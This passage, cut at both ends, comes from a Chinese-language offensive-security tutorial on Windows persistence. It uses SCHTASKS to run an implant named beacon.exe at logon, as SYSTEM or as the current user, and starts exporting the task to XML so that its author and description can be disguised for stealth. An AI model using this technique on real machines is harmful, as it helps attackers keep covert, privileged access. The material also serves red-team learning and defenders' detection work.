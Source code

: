 或者重新登陆后以 SYSTEM 权限运行任务，SYSTEM 完整性级别。

![创建任务计划以 SYSTEM 权限运行.png](assets/1698895515-9a8e40cfc9e4c5455577f9f605e86cde.png)

不指定就默认以当前创建任务的账户，中等完整性级别。

```plaintext
PS C:\Users\123> SCHTASKS /Create /SC ONLOGON /TN Update /TR C:\Users\123\Desktop\beacon.exe
成功: 成功创建计划任务 "Update"。
```

![创建任务计划以当前用户权限运行.png](assets/1698895515-8a53e477cba0228b6dc67b641ce06399.png)

在不需要任务计划时，可手动删除。

```plaintext
PS C:\Users\123> SCHTASKS /Delete /TN Update /F
成功: 计划的任务 "Update" 被成功删除。
```

#### 2.1.2 XML 创建任务

前面通过 SCHTASKS 命令创建的任务，描述、创建者、创建时间都不能通过选项自定义，使用命令创建不够隐蔽，解决起来有两种解决方案，第一种可能要从 [Windows API 创建](https://learn.microsoft.com/en-us/windows/win32/taskschd/daily-trigger-example--c---)才行，第二种是通过 XML 创建任务。

为了先了解 XML 创建任务的标签结构，先创建一个以当前用户运行的任务计划。

```plaintext
PS C:\Users\123> SCHTASKS /Create /SC ONLOGON /TN Update /TR C:\Users\123\Desktop\beacon.exe /RU SYSTEM
成功: 成功创建计划任务 "Update"。
```

查询任务以 XML 显示，输出重定向到文件。

```plaintext
PS C:\Users\123> SCHTASKS /Query /TN Update /XML > desktop/update.xml
```

update.xml.

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2"
    xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
    <RegistrationInfo>
        <Date>2023-04-26T16:56:44</Date>
        <Author>DESKTOP-AKRQV41\123</Author>
        <URI>\Update</URI>
    </RegistrationInfo>
    <Principals>
        <Principal id="Author">
            <UserId>S-1-5-18</UserId>
        </Principal>
    </Principals>
    <Settings>
```